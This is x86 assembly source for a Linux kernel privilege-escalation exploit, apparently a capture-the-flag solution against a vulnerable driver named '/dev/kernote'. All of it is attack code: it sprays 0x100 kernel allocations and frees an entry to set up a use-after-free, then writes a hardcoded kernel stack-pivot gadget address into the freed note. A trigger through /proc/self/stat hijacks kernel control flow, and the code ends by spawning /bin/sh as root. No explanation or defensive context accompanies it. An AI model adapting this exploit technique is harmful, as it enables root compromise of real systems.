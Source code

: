 ```x86asm
    lea rdi, [devpath]
    mov esi, O_RDWR
    call open
    mov [kfd], eax

    ; for (int i = 0; i < 0x100; i++) {
    ;   alloc_entry(0);
    ; }
    mov r8d, 0x100
.sprayloop:
    xor edi, edi
    call alloc_entry
    dec r8d
    jnz .sprayloop

    ; alloc_entry(1)
    mov edi, 1
    call alloc_entry
    ; set_note(1)
    mov edi, 1
    call set_note
    ; free_entry(1)
    mov edi, 1
    call free_entry

    ; statfd = open("/proc/self/stat", O_RDONLY)
    lea rdi, [statpath]
    mov esi, O_RDONLY
    call open
    mov [statfd], eax

    ; 0xffffffff81516ebe: add rsp, 0x180; mov eax, r12d; pop rbx; pop r12; pop rbp; ret; 
    ; write_note(0xffffffff81516ebe)
    mov rdi, 0xffffffff81516ebe
    call write_note

    ; pwn(statfd, buf, sizeof(buf))
    mov edi, [statfd]
    lea rsi, [buf]
    mov edx, bufsize
    call pwn

    ; execve("/bin/sh", {"/bin/sh", NULL}, NULL)
    lea rdi, [shell_path]
    lea rsi, [shell_argv]
    xor edx, edx
    jmp execve

user_rsp: dq 0
kfd: dd 0
statfd: dd 0
shell_argv: dq shell_path, 0
buf: times 32 db 0
bufsize equ $ - buf

devpath: db '/dev/kernote', 0
statpath: db '/proc/self/stat', 0
shell_path: db '/bin/sh', 0

filesize equ $ - $$
```

